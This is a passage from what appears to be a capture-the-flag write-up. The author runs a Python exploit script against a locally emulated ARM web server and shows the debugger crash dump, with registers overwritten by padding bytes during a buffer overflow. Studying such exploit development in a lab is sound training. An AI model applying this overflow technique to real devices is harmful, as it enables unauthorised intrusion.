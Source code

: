The attacker is starting with a string, so he's going to get a string! Type hinting!

Fixing the bytes to all be a string and sending it across the socket seemed to get Python satisfied, but the connection is failing.
```bash
┌──(tokugero㉿kali)-[~/…/rooms/aoc2023/task2/ass]
└─$ python3 easymode.py localhost 50628
/home/tokugero/thm/rooms/aoc2023/task2/ass/easymode.py:2: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  from telnetlib import Telnet
*** Connection closed by remote host ***
```
In another terminal, I started up emuxgdb on the webs web server that we used to find config files before. Here's what this looks like before it crashes. Remember: This is all also hosted locally on my attack box to test these vulnerabilities before executing them on the remote system.

```bash
Program received signal SIGSEGV, Segmentation fault.
0x5c582762 in ?? ()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$r0  : 0x400876b8  →  0x400855e8  →  0x40087200  →  0x40085e00  →  0x40086ff8  →  0x40086618  →  0x40086410  →  0x400878c0
$r1  : 0x000757b4  →  0x40083cb0  →  0x40087450  →  0x40086c88  →  0x40086e90  →  0x40086ef0  →  0x40086ca0  →  0x40086d00
$r2  : 0x5       
$r3  : 0x400876c0  →  "http://BBBBBBBBBBBB/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r4  : 0x41414141 ("AAAA"?)
$r5  : 0x41414141 ("AAAA"?)
$r6  : 0x70414141 ("AAAp"?)
$r7  : 0x0007580c  →  0x00000006
$r8  : 0x3       
$r9  : 0x40085640  →  "text/html"
$r10 : 0x0       
$r11 : 0xbefffbd0  →  0x00000000
$r12 : 0x400855e8  →  0x40087200  →  0x40085e00  →  0x40086ff8  →  0x40086618  →  0x40086410  →  0x400878c0  →  0x40087b28 ("({\b@"?)
$sp  : 0xbefff5c8  →  0x5c623078 ("x0b\"?)
$lr  : 0x5c582762 ("b'X\"?)
$pc  : 0x5c582762 ("b'X\"?)
$cpsr: [negative zero CARRY overflow interrupt fast thumb]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xbefff5c8│+0x0000: 0x5c623078   ← $sp
0xbefff5cc│+0x0004: 0x40363078
0xbefff5d0│+0x0008: 0x42424227
0xbefff5d4│+0x000c: 0x43434342
0xbefff5d8│+0x0010: 0x5c276243
0xbefff5dc│+0x0014: 0x5c633978
0xbefff5e0│+0x0018: 0x5c373078
0xbefff5e4│+0x001c: 0x40363078
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:arm:ARM ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x5c582762
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, stopped 0x5c582762 in ?? (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
